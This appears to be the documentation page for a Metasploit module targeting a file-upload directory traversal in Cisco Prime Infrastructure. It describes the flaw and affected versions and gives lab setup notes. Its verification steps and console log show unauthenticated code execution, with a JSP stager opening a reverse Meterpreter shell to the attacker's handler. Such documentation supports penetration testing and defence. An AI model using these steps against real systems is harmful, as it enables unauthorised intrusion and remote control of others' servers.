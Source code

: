 ## Description

This module exploits a vulnerability found in Cisco Prime Infrastructure. The issue is that the TarArchive Java class the HA Health Monitor component uses does not check for any directory traversals while unpacking a Tar file, which can be abused by a remote user to leverage the UploadServlet class to upload a JSP payload to the Apache Tomcat's web apps directory, and gain arbitrary remote code execution. Note that authentication is not required to exploit this vulnerability.

## Vulnerable Application

Cisco Prime Infrastructure releases prior to 3.4.1, 3.5, and 3.6, also EPN Manager releases prior to 3.0.1. The Metasploit module is specifically designed to target CPI 3.4.0.

## Notes on Setup

While developing the exploit, I happened to run into several issues that made the process more difficut. It was really because I didn't have the best hardware to work with, but in case you are trying to set up Cisco Prime Infrastructure as VMs like me, you may want to read this first.

Special thanks to Steven Seeley (mr_me) for providing some of the most important setup notes himself.

**Hardware Requirements**

There are two machines you want to set up using the same ISO, the first is called the "primary" server, and the other is "secondary" (High Availability) server. They both require the same hardware:

* 4 CPU Cores.
* 12288 MB of RAM (12GB).
* 350GB of hard drive space, but you may still run out of it in days.
* Both VMs should be on the same network.

**SCP**

In case you want to transfer files, you will probably use scp. Before you do that, run the following script as admin on CPI. It will generate the credentials you need to scp files:

```
/opt/CSCOlumos/bin/getSCPcredentials.sh
```

By default, the CPI's SSH server's authentication method is password, you may end up running scp like this:

```
scp -r -o PreferredAuthentications=password admin@ip:/tmp/something.zip .
```

**Out of Space Issues**

Cisco Prime Infrastructure requires a lot of space on the primary server. If it ever reaches to a point where it shuts down unexpectedly, you may not be able to bring the NCS services back again (such as port 80, 443, or 8082). At least for me, I couldn't figure out. If that's the case, you may need to reinstall the VM.

**Unstable HA Connection**

Sometimes the primary and secondary may experience some difficulty staying connected. If this happens, try to do the following on both machines:

1. Run `ncs stop` to stop the services
2. Run `ncs cleanup`
3. Run `ncs start`, this may take 10 to 30 minutes to finish.
4. Finally, run `ncs status` to make sure they are talking.

If the secondary server isn't working with the primary, then the HealthMonitor service may not be in the exploitable condition.

## Verification Steps

1. Start msfconsole
2. Do `use exploit/linux/http/cpi_tararchive_upload`
3. Do `set payload` to select the preferred payload
4. `set rhosts [ip]`
5. `run`, this should give you a shell

## Scenarios

**Running the check**

```
msf5 exploit(linux/http/cpi_tararchive_upload) > check
[*] 192.168.0.23:8082 - The target service is running, but could not be validated.
```

**Exploiting the service**

```
msf5 exploit(linux/http/cpi_tararchive_upload) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading tar file (3072 bytes)
[*] Executing JSP stager...
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 3 opened (192.168.0.21:4444 -> 192.168.0.23:57127) at 2019-06-07 02:50:13 -0500
[!] This exploit may require manual cleanup of '/tmp/UdqUlWsFjp.bin' on the target
[!] This exploit may require manual cleanup of 'apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp' on the target

meterpreter > 
[+] Deleted /tmp/UdqUlWsFjp.bin
[+] Deleted apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp
```
